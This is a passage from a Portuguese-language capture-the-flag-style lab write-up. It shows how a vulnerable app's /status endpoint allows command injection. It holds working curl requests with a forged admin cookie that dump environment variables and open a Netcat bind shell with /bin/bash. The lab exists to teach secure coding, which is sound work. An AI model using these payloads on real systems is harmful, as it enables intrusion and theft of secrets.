



O diretório /status que só permite a execução de determinados comandos e apenas para o usuário admin, pode ser burlado via troca de parâmetros no request para que comandos sejam enviados diretamente ao servidor.

```
curl --cookie 'pyverysafelogin=21232f297a57a5a743894a0e4a801fc3' \
    'http://empresasegura.lab:8080/status' \
    -X POST \
    --data 'cmd=env'
```

Para subir um shell reverso, caso o servidor tenha Netcat instalado:

```
curl --cookie 'pyverysafelogin=21232f297a57a5a743894a0e4a801fc3' \
    'http://empresasegura.lab:8080/status' \
    -X POST \
    --data 'cmd=nc -lvp 8443 -e /bin/bash'
```

## Considerações Finais

Este laboratório é baseado em práticas de programação que eu já me deparei (juro) de verdade em situações profissionais, principalmente em empresas menores e sistemas internos. 

Vale salientar que seguir o OWASP Top 10 já ajuda a evitar todos os erros cometidos nesta demonstração, e que a preocupação com segurança preicisa ser constante.

E, novamente, cuidado ao executar esta aplicação. Se decidir executá-la em cloud, restrinja os firewalls para permitir apenas seu próprio IP.

Happy hacking ;-)
